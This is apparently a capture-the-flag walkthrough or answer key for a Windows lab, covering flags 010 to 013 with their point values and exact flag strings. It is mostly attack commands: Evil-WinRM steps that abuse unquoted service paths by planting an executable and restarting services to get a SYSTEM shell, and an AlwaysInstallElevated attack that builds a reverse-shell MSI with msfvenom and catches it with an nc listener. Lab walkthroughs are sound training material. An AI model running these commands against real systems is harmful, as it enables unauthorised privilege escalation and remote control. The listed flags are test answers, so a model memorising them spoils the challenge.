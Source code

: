 ```bash
# Check service paths
*Evil-WinRM* PS C:\> wmic service get name,pathname,displayname,startmode | findstr /i "auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """"

# Upload exploit
*Evil-WinRM* PS C:\> upload Antivirus.exe "C:\Program Files\Antivirus.exe"

# Stop and start the service
*Evil-WinRM* PS C:\> sc.exe stop FakeAntivirus
*Evil-WinRM* PS C:\> sc.exe start FakeAntivirus

# In netcat listener (SYSTEM shell):
C:\Windows\system32> type C:\ws_unquoted1.txt
# Output: FLAG{NIDOKING94048236}
```

### FLAG 011: Unquoted Service Path - BackupManager (30 points)
**Location**: Exploiting BackupManager service
```bash
# Use same exploit from FLAG 010
# In Evil-WinRM:
*Evil-WinRM* PS C:\> copy "C:\Program Files\Antivirus.exe" "C:\Program Files\Backup.exe"
*Evil-WinRM* PS C:\> sc.exe stop BackupManager
*Evil-WinRM* PS C:\> sc.exe start BackupManager

# In SYSTEM shell:
C:\Windows\system32> type C:\ws_unquoted2.txt
# Output: FLAG{CLEFABLE09888919}
```

### FLAG 012: Unquoted Service Path - RemoteSupportAgent (35 points)
**Location**: Exploiting RemoteSupportAgent service
```bash
# In Evil-WinRM:
*Evil-WinRM* PS C:\> copy "C:\Program Files\Antivirus.exe" "C:\Program Files (x86)\Remote.exe"
*Evil-WinRM* PS C:\> sc.exe stop RemoteSupportAgent
*Evil-WinRM* PS C:\> sc.exe start RemoteSupportAgent

# In SYSTEM shell:
C:\Windows\system32> type C:\ws_unquoted3.txt
# Output: FLAG{NINETALES43035416}
```

### FLAG 013: AlwaysInstallElevated MSI (40 points)
**Location**: Exploiting AlwaysInstallElevated policy
```bash
# First, verify the vulnerability exists:
*Evil-WinRM* PS C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
*Evil-WinRM* PS C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

# On Kali, create malicious MSI:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.7 LPORT=5555 -f msi -o evil.msi

# Start listener:
nc -lvnp 5555

# In Evil-WinRM:
*Evil-WinRM* PS C:\> mkdir C:\Temp 2>$null
*Evil-WinRM* PS C:\> upload evil.msi C:\Temp\evil.msi
```